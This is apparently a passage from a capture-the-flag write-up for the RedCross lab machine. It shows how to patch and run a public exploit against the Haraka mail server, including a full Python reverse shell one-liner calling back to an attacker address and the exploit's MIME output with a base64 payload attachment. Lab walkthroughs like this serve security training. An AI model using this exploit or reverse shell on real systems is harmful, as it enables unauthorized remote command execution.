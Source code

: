 The exploit needs to be modified slightly because the port is hardcoded and needs to be changed to 1025.

Line 123 needs to be changed to the following:

```python
...
s = smtplib.SMTP(mailserver,1025)
...
```

We can use vi to create the exploit .py file in /dev/shm, then execute it to spawn a reverse shell:

Note: The email address must contain the `redcross.htb` domain.

```console
www-data@redcross:/dev/shm$ ./h.py -c "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.23\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" -t penelope@redcross.htb -f penelope@redcross.htb -m redcross
htb -m redcrossn/sh\",\"-i\"]);'" -t penelope@redcross.htb -f penelope@redcross.h
##     ##    ###    ########     ###    ##    ## #### ########  #### 
##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##  
##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##  
######### ##     ## ########  ##     ## #####     ##  ########   ##  
##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##  
##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##  
##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## #### 
                                                 
-o- by Xychix, 26 January 2017 ---
-o- xychix [at] hotmail.com ---
-o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --

-i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

Send harariki to penelope@redcross.htb, attachment saved as harakiri-20181111-152151.zip, commandline: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' , mailserver redcross is used for delivery
Content-Type: multipart/mixed; boundary="===============2632093882109835759=="
MIME-Version: 1.0
Subject: harakiri
From: penelope@redcross.htb
To: penelope@redcross.htb

--===============2632093882109835759==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

harakiri
--===============2632093882109835759==
Content-Type: application/octet-stream; Name="harakiri.zip"
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="harakiri.zip"

UEsDBBQAAAAIALl6a00BtHNYbAEAAI0BAADyAAAAYSI7cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0
LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NL
X1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMjMiLDU1NTUpKTtvcy5kdXAyKHMuZmlsZW5v
KCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3Vi
cHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc7ZWNobyAiYS56aXAL8GZmEWFgYOBg2FmV
7Su+rEFdmJGBgZ2ZgYEHKJqRWJSYnVmUqVdSUTI18HRes4HAnt/abo8meZiqyGSIbP2+Kj5g5atE
Zr6yU94blnz4/nTiB66gq1Ml1penXU/Oicw4vKlqj35sQtjuRPeeLr5W05mXLjof98pt6Fz090jS
/mWSky5efTxl986JM3/Nvaq29vBc8Tixz3kGa3X39Ny+OaVy25dPP+Kv7f0ztzffZC8jyz9pp2VC
y6Xkt673/cpy/bC1qupT0zt3/0kGnfILKrWx69y/ILjvpMu2+ceY16/S8eJ1Dva736LCO6VW88Ir
```